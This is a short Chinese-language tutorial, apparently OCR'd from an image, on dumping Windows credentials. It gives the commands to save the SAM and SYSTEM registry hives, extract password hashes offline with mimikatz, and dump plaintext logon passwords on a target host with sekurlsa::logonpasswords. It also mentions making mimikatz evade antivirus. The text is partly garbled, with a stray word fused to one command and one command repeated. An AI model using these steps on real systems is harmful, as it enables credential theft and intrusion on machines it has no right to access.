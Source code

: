 
获取明文密码

Windows Server 2003、Windows Server 2008、Windows 7 都能直接获取到明文密码

首先我们需要把当前系统注册表 SAM、SYSTEM 获取到
reg save HKLM\SYSTEM Sys.hiv

reg save HKLM\SAM Sam.hiv

mimikatz "lsadump::sam /sam:Sam.hiv /system:Sys.hiv" exitsaulGoodman


然后把这两个文件拖回本地然后用 mimikatz 抓取密码hash


mimikatz "lsadump::sam /sam:Sam.hiv /system:Sys.hiv" exit

把mimikatz拖到目标主机获取密码（根据实际需要，mimikatz需要免杀）

mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" "exit"
